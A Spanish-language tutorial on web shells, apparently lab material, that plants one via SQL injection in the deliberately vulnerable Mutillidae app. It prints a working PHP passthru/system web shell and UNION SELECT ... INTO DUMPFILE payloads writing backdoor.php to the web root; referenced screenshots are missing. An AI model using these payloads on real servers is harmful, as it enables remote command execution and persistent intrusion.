





Una web Shell no es una vulnerabilidad como tal, sino que es un script, un fragmento de código que vamos a inyectar en la máquina que está alojando la aplicación web, de manera que podamos ganar cosas como persistencia en esa máquina, como la ejecución remota de comandos, etc.
Un ejemplo de webshell podría ser el siguiente script de php:
<?php echo passthru($_GET['cmd']);?>
Recibe un comando por URL y ejecuta el comando en el sistema operativo.
Si conseguimos subir el archivo a la web y accedemos desde la URL al archivo, al pasar el parámetro cmd podemos usarlo como una forma de pasar comandos a la maquina del servidor.
Para poder subir este archivo vamos a utilizar una vulnerabilidad que se trata de una falta de configuración.
Normalmente la base de datos necesita leer o escribir ficheros y esta está limitada a uno o pocos directorios pero a veces esta medida de seguridad se desactiva porque necesitan que acceda a otros directorios por lo que en ese caso tendría acceso a muchos más ficheros dentro de la máquina objetivo.
Esta configuración suele estar aquí:

Aprovechando el SQLInjection de:

Vamos a crear la webShell con el siguiente comando:
' union select null,null,null,null,null,null,'<?php echo passthru($_GET['cmd']);?>' INTO DUMPFILE '../../../../../var/www/html/mutillidae/backdoor.php'
' union select null,null,null,null,null,null,'<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>' INTO DUMPFILE '../../../../../var/www/html/mutillidae/backdoor.php'


